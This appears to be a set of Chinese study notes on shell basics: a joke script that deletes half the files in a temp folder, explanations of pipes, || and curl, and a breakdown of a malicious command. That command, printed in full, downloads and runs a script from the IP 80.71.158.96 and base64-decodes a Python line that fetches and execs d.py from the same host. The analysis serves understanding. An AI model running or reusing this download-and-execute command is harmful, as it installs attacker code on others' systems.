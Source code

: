 ## Thanos.sh 一键删除指定文件夹的二分之一文件

```python
#!/bin/sh
#filename 为本shell的文件名，例如这里是Thanos.sh
filename=${0##*/}
rm_dir="./temp"
# 在当前目录下创建一个temp文件夹，并在temp文件夹下创建10个文件（1.txt，2.txt。。。）
function touch_file()
{
    if [[ ! -d ${rm_dir} ]]; then
        mkdir -p ${rm_dir}
    fi

    cnt=10
    while [[ cnt -gt 0 ]];
    do
        touch ${rm_dir}/${cnt}.txt
        let cnt-=1
    done
}

function rm_files()
{
    #shuf是linux产生随机序列命令，gshuf大致也差不多一个意思
    sf="shuf"
    if [[ "`uname`" == "Darwin" ]]; then
        sf="gshuf"
    fi
    #让files获取所有文件名（除了自身）
    files=()
    while read line;
    do
        files+=("${line}")
    done <<< "`find ${rm_dir} -not -name "${filename}" -type f`"
    #nums为删除文件的数量
    let nums=${#files[*]}/2
    #删除一半文件
    echo ${files[*]} | xargs printf "%s\0" | ${sf} -z -n ${nums} | awk "{print \"xargs -0 -- sudo rm -f \" \$0}"
    echo "nums: ${nums}"
}

touch_file
rm_files

# Explanation
## Step 1: Get the count of files in current path divided by two.
## Step 2: Get all the files in current path and print in one line.
## Step 3: Turn half of the second step output into standard input randomly.
```

##### ｜管道符号

[https://blog.51cto.com/litaotao/1187983](https://blog.51cto.com/litaotao/1187983)

用法：命令1 | 命令2
机制：上一个的命令输出作为下一个命令的输入

```
ls -a | grep bash
```

.bash_history
.bash_logout
.bash_profile
.bashrc
grep用来从一个文件中找出匹配指定关键字的那一行，并送到标准输出,结合管道，我们
通常用它来过滤搜索结果.

##### || 逻辑或

       用法：命令1 || 命令2
       机制：如果命令1执行成功，不执行命令2；否则，
           才执行命令2

#### curl

[https://www.ruanyifeng.com/blog/2019/09/curl-reference.html](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)

是常用的命令行工具，用来请求 Web 服务器。它的名字就是客户端（client）的 URL 工具的意思

```bash
curl https://www.example.com
```

上面命令向`www.example.com`发出 GET 请求，服务器返回的内容会在命令行输出。

`-s`参数将不输出错误和进度信息。

```bash
$ curl -s https://www.example.com
```



## 一个恶意命令解析

```
/bin/bash -c (curl -s http://80.71.158.96/xms || wget -q -O - http://80.71.158.96/xms || lwp-download http://80.71.158.96/xms /tmp/xms) | bash -sh; bash /tmp/xms; rm -rf /tmp/xms; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly84MC43MS4xNTguOTYvZC5weSIpLnJlYWQoKSkn | base64 -d | bash -
```

/bin/bash -c 后面加命令

curl -s [http://80.71.158.96/xms](http://80.71.158.96/xms) || wget -q -O - [http://80.71.158.96/xms](http://80.71.158.96/xms) || lwp-download [http://80.71.158.96/xms](http://80.71.158.96/xms) /tmp/xms

；是指可以拼接命令

bash /tmp/xms 执行下载的脚本

rm -rf /tmp/xms 删除文件

echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly84MC43MS4xNTguOTYvZC5weSIpLnJlYWQoKSkn | base64 -d | bash -

解密这个使用base64编码的命令
![image.png](https://cdn.nlark.com/yuque/0/2022/png/2652737/1656506996614-73ab770a-6902-4951-b1f9-b637986699ef.png?x-oss-process=image%2Fresize%2Cw_750%2Climit_0)
实际上是下载了d.py这个文件并读取执行
![image.png](https://cdn.nlark.com/yuque/0/2022/png/2652737/1656507017442-9809cfef-5a47-4cfc-a14a-52ec0fbe68cb.png?x-oss-process=image%2Fresize%2Cw_750%2Climit_0)
整个命令内容就是：

下载并执行xms脚本

下载并执行d.py
